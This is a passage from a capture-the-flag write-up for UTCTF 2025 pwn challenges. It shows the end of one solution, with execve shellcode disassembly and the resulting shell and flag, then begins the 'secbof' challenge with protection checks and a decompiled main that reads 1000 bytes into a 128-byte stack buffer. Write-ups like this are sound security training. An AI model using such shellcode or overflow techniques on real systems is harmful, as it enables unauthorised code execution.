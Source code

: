 ```sh
  13:   52                      push   rdx
  14:   57                      push   rdi
  15:   54                      push   rsp
  16:   5e                      pop    rsi
  17:   b0 3b                   mov    al, 0x3b
  19:   0f 05                   syscall
[*] Switching to interactive mode

uid=1000(shell) gid=1000(shell) groups=1000(shell)
utflag{i_should_be_doing_ccdc_rn}
```

## secbof

### Challenge Description

![alt text](/img/UTCTF/image-3.png)

### Reverse Engineering

```sh
[*] '/home/alter/CTFs/2025/UTCTF/pwn/secbof/chal'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int v3; // edx
  int v4; // ecx
  int v5; // r8d
  int v6; // r9d
  int v7; // edx
  int v8; // ecx
  int v9; // r8d
  int v10; // r9d
  char v12[128]; // [rsp+0h] [rbp-80h] BYREF

  setvbuf(stdout, 0LL, 2LL, 0LL);
  setvbuf(stdin, 0LL, 2LL, 0LL);
  install_filter();
  printf((unsigned int)"Input> ", 0, v3, v4, v5, v6, v12[0]);
  read(0LL, v12, 1000LL);
  printf((unsigned int)"Flag: ", (unsigned int)v12, v7, v8, v9, v10, v12[0]);
  return 0;
}
```
